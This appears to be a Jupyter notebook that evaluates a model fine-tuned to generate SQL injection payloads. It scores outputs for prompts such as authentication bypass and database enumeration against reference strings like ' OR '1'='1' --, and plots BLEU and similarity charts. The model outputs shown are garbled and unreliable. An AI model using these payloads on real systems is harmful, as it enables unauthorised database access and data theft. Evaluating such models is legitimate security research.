Prompt: Generate UNION-based payload to extract database version from users table
Reference: ' UNION SELECT version(), null, null --
Generated: 1   (    select count  ( * )   from generate_series  ( 15000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
BLEU Score: 0.0000, Exact Match: 0, Semantic Similarity: 0.2511

Prompt: Create payload to bypass authentication using boolean-based blind SQLi
Reference: ' OR '1'='1' AND '1'='1' --
Generated: 201 OK

### Comments:
This is a simple example of how to us

<ipython-input-4-f2310c9970f1>:134: UserWarning: Glyph 128269 (\N{LEFT-POINTING MAGNIFYING GLASS}) missing from font(s) DejaVu Sans.
  plt.tight_layout()
/usr/local/lib/python3.11/dist-packages/IPython/core/pylabtools.py:151: UserWarning: Glyph 128269 (\N{LEFT-POINTING MAGNIFYING GLASS}) missing from font(s) DejaVu Sans.
  fig.canvas.print_figure(bytes_io, **kw)




<ipython-input-4-f2310c9970f1>:148: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.barplot(x=metrics, y=averages, palette="Set2")
<ipython-input-4-f2310c9970f1>:154: UserWarning: Glyph 128202 (\N{BAR CHART}) missing from font(s) DejaVu Sans.
  plt.tight_layout()
/usr/local/lib/python3.11/dist-packages/IPython/core/pylabtools.py:151: UserWarning: Glyph 128202 (\N{BAR CHART}) missing from font(s) DejaVu Sans.
  fig.canvas.print_figure(bytes_io, **kw)




In [4]:
import torch
from transformers import AutoModelForCausalLM, AutoTokenizer, BitsAndBytesConfig, GenerationConfig, StoppingCriteria, StoppingCriteriaList
from nltk.translate.bleu_score import sentence_bleu, SmoothingFunction
from sentence_transformers import SentenceTransformer, util
import matplotlib.pyplot as plt
import numpy as np
import seaborn as sns

# Load your fine-tuned model
model_name = "AtifAli121/sqlcoder-7b-sqli"
bnb_config = BitsAndBytesConfig(load_in_4bit=True, bnb_4bit_quant_type="nf4",
                                bnb_4bit_compute_dtype=torch.float16, bnb_4bit_use_double_quant=True)
model = AutoModelForCausalLM.from_pretrained(model_name, quantization_config=bnb_config, device_map="auto", trust_remote_code=True)
tokenizer = AutoTokenizer.from_pretrained(model_name)
tokenizer.pad_token = tokenizer.eos_token
model.eval()

# Sentence transformer for semantic similarity
semantic_model = SentenceTransformer('sentence-transformers/all-MiniLM-L6-v2')

# Test prompts and reference payloads (extend as needed)
test_data = [
    {
        "prompt": "Create a time-based blind SQL injection that delays response by 10 seconds",
        "reference": "1' OR SLEEP(10) --"
    },
    {
        "prompt": "Generate UNION-based payload to extract database version from users table",
        "reference": "' UNION SELECT version(), null, null --"
    },
    {
        "prompt": "Create payload to bypass authentication using boolean-based blind SQLi",
        "reference": "' OR '1'='1' AND '1'='1' --"
    },
    {
        "prompt": "Generate payload to retrieve all table names from the database",
        "reference": "' UNION SELECT table_name, null, null FROM information_schema.tables --"
    }
]

# Define stopping criteria based on stop tokens
class StoppingCriteriaSub(StoppingCriteria):
    def __init__(self, stops=[]):
        super().__init__()
        self.stops = [tokenizer.encode(stop, add_special_tokens=False)[0] for stop in stops]

    def __call__(self, input_ids: torch.LongTensor, scores: torch.FloatTensor):
        return input_ids[0][-1] in self.stops

def generate_sqli_payload(prompt):
    stop_tokens = ["###", ";", "--", "#"]
    stopping_criteria = StoppingCriteriaList([StoppingCriteriaSub(stop_tokens)])

    instruction_prompt = f"""### Instruction:
{prompt}

### Response:
"""
    inputs = tokenizer(instruction_prompt, return_tensors="pt").to(model.device)
    config = GenerationConfig(
        temperature=0.2, top_p=0.9, top_k=20, repetition_penalty=1.2,
        max_new_tokens=128, do_sample=True,
        pad_token_id=tokenizer.eos_token_id, eos_token_id=tokenizer.eos_token_id,
    )
    with torch.inference_mode():
        outputs = model.generate(
            **inputs,
            generation_config=config,
            stopping_criteria=stopping_criteria
        )

    generated = tokenizer.decode(outputs[0][inputs.input_ids.shape[1]:], skip_special_tokens=True)
    return generated.strip()

# Initialize metrics
bleu_scores, exact_matches, semantic_similarities = [], [], []

for item in test_data:
    prompt, reference = item["prompt"], item["reference"]
    generated = generate_sqli_payload(prompt)

    # BLEU Score
    bleu = sentence_bleu(
        [reference.split()], generated.split(), weights=(0.5, 0.5),
        smoothing_function=SmoothingFunction().method1
    )

    # Exact Match
    exact = int(reference.strip().lower() == generated.strip().lower())

    # Semantic Similarity
    emb_gen = semantic_model.encode(generated, convert_to_tensor=True)
    emb_ref = semantic_model.encode(reference, convert_to_tensor=True)
    similarity = util.pytorch_cos_sim(emb_gen, emb_ref).item()

    # Store results
    bleu_scores.append(bleu)
    exact_matches.append(exact)
    semantic_similarities.append(similarity)

    # Print individual results
    print(f"\nPrompt: {prompt}")
    print(f"Reference: {reference}")
    print(f"Generated: {generated}")
    print(f"BLEU Score: {bleu:.4f}, Exact Match: {exact}, Semantic Similarity: {similarity:.4f}")
    print("="*100)

# Visualization
# Use modern seaborn color palette
colors = sns.color_palette("Set2")

x_labels = [f"Prompt {i+1}" for i in range(len(test_data))]
bar_width = 0.25
x = np.arange(len(test_data))

plt.figure(figsize=(12, 6))
plt.rcParams.update({'font.size': 12})

# Create grouped bar chart with modern colors
plt.bar(x - bar_width, bleu_scores, width=bar_width, label='BLEU Score', color=colors[0])
plt.bar(x, semantic_similarities, width=bar_width, label='Semantic Similarity', color=colors[1])
plt.bar(x + bar_width, exact_matches, width=bar_width, label='Exact Match', color=colors[2])

# Axis and label styling
plt.xlabel('Test Prompts', fontsize=13, weight='bold')
plt.ylabel('Metric Score', fontsize=13, weight='bold')
plt.title('🔍 SQLi Payload Generation - Metric Comparison per Prompt', fontsize=14, weight='bold')
plt.xticks(x, x_labels, rotation=0)
plt.ylim(0, 1.1)

# Add grid and legend
plt.grid(axis='y', linestyle='--', alpha=0.6)
plt.legend(frameon=False, fontsize=11)
plt.tight_layout()
plt.show()

# Overall metric bar chart
plt.figure(figsize=(6, 5))
plt.rcParams.update({'font.size': 12})

metrics = ['BLEU Score', 'Semantic Similarity', 'Exact Match']
averages = [
    np.mean(bleu_scores),
    np.mean(semantic_similarities),
    np.mean(exact_matches)
]

sns.barplot(x=metrics, y=averages, palette="Set2")

plt.ylim(0, 1.1)
plt.ylabel("Average Score", fontsize=13, weight='bold')
plt.title("📊 Overall Model Performance", fontsize=14, weight='bold')
plt.grid(axis='y', linestyle='--', alpha=0.6)
plt.tight_layout()
plt.show()


<ipython-input-5-04a458fe24f1>:37: UserWarning: Glyph 128269 (\N{LEFT-POINTING MAGNIFYING GLASS}) missing from font(s) DejaVu Sans.
  plt.tight_layout()
/usr/local/lib/python3.11/dist-packages/IPython/core/pylabtools.py:151: UserWarning: Glyph 128269 (\N{LEFT-POINTING MAGNIFYING GLASS}) missing from font(s) DejaVu Sans.
  fig.canvas.print_figure(bytes_io, **kw)




<ipython-input-5-04a458fe24f1>:49: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.barplot(x=metrics, y=averages, palette="Set2")
<ipython-input-5-04a458fe24f1>:54: UserWarning: Glyph 128202 (\N{BAR CHART}) missing from font(s) DejaVu Sans.
  plt.tight_layout()
/usr/local/lib/python3.11/dist-packages/IPython/core/pylabtools.py:151: UserWarning: Glyph 128202 (\N{BAR CHART}) missing from font(s) DejaVu Sans.
  fig.canvas.print_figure(bytes_io, **kw)




In [5]:
import matplotlib.pyplot as plt
import numpy as np
import seaborn as sns

# Updated results you provided
bleu_scores = [0.0333, 0.0162, 0.0000, 0.2108]
semantic_similarities = [0.8072, 0.3854, 0.3874, 0.5663]
exact_matches = [0, 0, 0, 0]

x_labels = [
    "Prompt 1\n(Time-based)",
    "Prompt 2\n(UNION-version)",
    "Prompt 3\n(Boolean auth bypass)",
    "Prompt 4\n(Retrieve tables)"
]

# Visualization
colors = sns.color_palette("Set2")
bar_width = 0.25
x = np.arange(len(x_labels))

plt.figure(figsize=(12, 6))
plt.rcParams.update({'font.size': 12})

# Grouped bar chart
plt.bar(x - bar_width, bleu_scores, width=bar_width, label='BLEU Score', color=colors[0])
plt.bar(x, semantic_similarities, width=bar_width, label='Semantic Similarity', color=colors[1])
plt.bar(x + bar_width, exact_matches, width=bar_width, label='Exact Match', color=colors[2])

plt.xlabel('Test Prompts', fontsize=13, weight='bold')
plt.ylabel('Metric Score', fontsize=13, weight='bold')
plt.title('🔍 SQLi Payload Generation - Metric Comparison per Prompt', fontsize=14, weight='bold')
plt.xticks(x, x_labels)
plt.ylim(0, 1.1)
plt.grid(axis='y', linestyle='--', alpha=0.6)
plt.legend(frameon=False, fontsize=11)
plt.tight_layout()
plt.show()

# Overall metric bar chart
plt.figure(figsize=(6, 5))
metrics = ['BLEU Score', 'Semantic Similarity', 'Exact Match']
averages = [
    np.mean(bleu_scores),
    np.mean(semantic_similarities),
    np.mean(exact_matches)
]

sns.barplot(x=metrics, y=averages, palette="Set2")
plt.ylim(0, 1.1)
plt.ylabel("Average Score", fontsize=13, weight='bold')
plt.title("📊 Overall Model Performance", fontsize=14, weight='bold')
plt.grid(axis='y', linestyle='--', alpha=0.6)
plt.tight_layout()
plt.show()
